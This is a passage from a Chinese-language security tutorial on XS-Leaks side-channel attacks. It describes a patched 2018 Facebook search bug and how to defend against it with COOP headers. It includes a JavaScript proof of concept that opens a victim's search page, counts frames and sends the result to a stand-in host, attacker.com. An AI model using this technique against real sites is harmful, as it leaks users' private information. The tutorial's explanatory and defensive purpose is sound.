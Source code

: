 例如說 2018 年資安公司 Imperva 部落格中的：[Patched Facebook Vulnerability Could Have Exposed Private Information About You and Your Friends](https://www.imperva.com/blog/facebook-privacy-bug/) 就是利用了這個技巧。

Facebook 有一個搜尋的功能，可以搜尋自己的朋友、貼文或是相片等等，而這個搜尋功能可能是為了方便分享，所以直接從網址點進去就可以搜。舉例來說，`https://www.facebook.com/search/str/chen/users-named/me/friends/intersect` 這個 URL 會顯示朋友中名字有「chen」的搜尋結果。

而作者發現了一個差異，就是如果搜尋結果有東西，那頁面上會有一個 iframe，作者推測這可能是 Facebook 做 tracking 所需要的。若是沒有結果，那就不會有這個 iframe。

換句話說，我們可以從 `frames.length` 得知搜尋的結果有沒有東西。

攻擊流程是這樣的，我們先準備好一個 HTML，內容是：

``` html
<script>
  let win = window.open('https://www.facebook.com/search/str/chen/users-named/me/friends/intersect')
  setTimeout(() => {
    if (win.frames.length === 0) {
      fetch('https://attacker.com/?result=no')
    } else {
      fetch('https://attacker.com/?result=yes')
    }
    win.close()
  }, 2000)
</script>
```

接著把這個網頁傳給目標，目標點開網頁之後，攻擊者的 server 就會收到搜尋的結果。

像是這個攻擊就防禦就比較麻煩了，因為 same-site cookie Lax 是沒有作用的，這邊使用的是 `window.open`，除非你設成 strict，否則 cookie 是會一起帶上去的。

之前提的 Fetch Metadata 也沒用，因為這其實是一個正常的 request。

若是要用現有機制防禦的話，可以加上 COOP（Cross-Origin-Opener-Policy）header，這樣開啟的 window 就會跟原本的失去連結，就無法拿到 `win.frames`。

除此之外，就是要修改搜尋結果頁面了，無論有沒有搜尋到，要嘛就都有 iframe，要嘛就都沒有，就無法透過 iframe 的數量去洩露資訊。

## 小結

在這篇裡面我們知道了什麼是旁路攻擊，也知道了 XSLeaks 的基本原理，還看到了不少現實生活中的範例，證明這確實是一個可以被利用的漏洞。

當然，XSLeaks 需要的前置作業跟條件通常都比較多，跟其他漏洞比起來，能夠得到的結果也有限，但我自己認為這依然是個很有趣的漏洞。

Google 本身在 bug bounty 這一塊就特別有一個[頁面](https://bughunters.google.com/learn/invalid-reports/web-platform/xsleaks/5022006283862016/xsleaks-and-xs-search)在講 XSLeaks，因為大多數問題他們都已經知道，而且內部有工程師專門在研究這一塊，所以不建議賞金獵人把時間花在這邊。

參考資料：

1. [Protect your resources from web attacks with Fetch Metadata](https://web.dev/i18n/en/fetch-metadata/)
2. [XS-Leaks wiki](https://xsleaks.dev/)

